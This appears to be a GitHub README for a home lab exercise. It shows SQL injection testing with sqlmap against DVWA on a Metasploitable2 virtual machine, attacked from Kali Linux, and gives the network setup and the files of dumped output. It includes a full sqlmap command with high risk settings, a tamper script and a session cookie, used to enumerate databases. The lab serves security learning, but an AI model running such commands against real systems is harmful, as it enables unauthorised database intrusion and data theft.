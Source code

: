 ### DVWA SQL Injection Testing

This project demonstrates how to perform SQL Injection vulnerability testing using sqlmap on the Damn Vulnerable Web Application (DVWA) hosted on Metasploitable2 and tested from Kali Linux.

##  Tools Used
- Kali Linux (Attacker)
- Metasploitable2 (Victim)
- Oracle VirtualBox
-  SQLMap — to detect and exploit SQL Injection vulnerabilities

  ## Lab Setup
- Oracle VirtualBox with two Virtual Machines:
  - **Kali Linux** (Attacker): `192.168.56.100`
  - **Metasploitable2** (Victim): `192.168.56.101`
- Network Configuration:
  - **Adapter 1:** Host-Only Adapter
  - **Adapter 2:** Bridged Adapter (for internet access)


    ### 1. SQL Injection with SQLMap
- URL: `http://192.168.56.101/dvwa/vulnerabilities/sqli/`
- Security Level: Low (I have mannualy set inside DVWA UI)
- Used:
  ```
  sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=612e9cdb3e43fd8056e95567265f6225" \
  --level=5 --risk=3 --random-agent --tamper=space2comment \
  --batch --dbs
  ```
- Extracted DB names like `dvwa`, `metasploit`, `mysql`, etc.

```
  ├── sqlmap/
│   ├── sqlmap_output.txt
│   ├── dvwa_table_list.txt
|   |── user_table_coloumn.txt
│   └── dumped_data.txt
└── README.md
```
